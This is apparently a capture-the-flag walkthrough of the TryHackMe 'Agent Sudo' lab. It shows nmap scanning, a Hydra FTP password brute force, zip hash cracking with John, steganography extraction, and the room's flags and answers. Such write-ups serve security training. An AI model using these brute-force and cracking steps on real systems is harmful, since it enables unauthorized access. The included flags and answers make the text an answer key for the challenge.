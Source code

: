 # Agent Sudo

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

[Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## Topic's

* Network Enumeration
* Web Header Manipulation
* Brute Forcing (FTP)
* Brute Forcing (Zip)
* Steganography
* Cryptography
* OSINT
* CVE-2019-14287 - Sudo < 1.8.28

## Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine

`No answer needed`

## Enumerate

Enumerate the machine and get all the important information

1. How many open ports?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ sudo nmap -A -Pn -sC -sV -O 10.10.34.31
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:28 CEST
Nmap scan report for 10.10.34.31
Host is up (0.053s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=21%CT=1%CU=35221%PV=Y%DS=2%DC=T%G=Y%TM=5F79B1F
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%II=I%
OS:TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5
OS:=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.49 ms 10.8.0.1
2   36.67 ms 10.10.34.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.71 seconds
```

`3`

2. How you redirect yourself to a secret page?

* [http://10.10.34.31/](http://10.10.34.31/)

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

`user-agent`

1. What is the agent name?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ curl -A "C" -L 10.10.34.31
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

`chris`

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.34.31 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 13:36:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.34.31:21/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344243 to do in 1532:31h, 16 active
[21][ftp] host: 10.10.34.31   login: chris   password: crystal
```

2. Zip file password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ zip2john _cutie.png.extracted/8702.zip > zip.hash
ver 81.9 _cutie.png.extracted/8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
kali@kali:~/CTFs/tryhackme/Agent Sudo$ john zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:01 DONE 2/3 (2020-10-04 13:42) 0.6993g/s 37134p/s 37134c/s 37134C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. steg password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ echo -n 'QXJlYTUx' | base64 -d
Area51
```

4. Who is the other agent (in full name)?

`james`

5. SSH password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

`hackerrules!`

## Capture the user flag

You know the drill.

1. What is the user flag?

```
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

2. What is the incident of the photo called?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ scp james@10.10.34.31:Alien_autospy.jpg ./
james@10.10.34.31's password: 
Alien_autospy.jpg                                            100%   41KB 358.6KB/s   00:00    
kali@kali:~/CTFs/tryhackme/Agent Sudo$
```

`roswell alien autopsy`

## Privilege escalation

Enough with the extraordinary stuff? Time to get real.

1. CVE number for the escalation (Format: CVE-xxxx-xxxx)

`CVE-2019-14287`

2. What is the root flag?

```
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

`b53a02f55b57d4439e3341834d70c062`

3. (Bonus) Who is Agent R?

`DesKel`
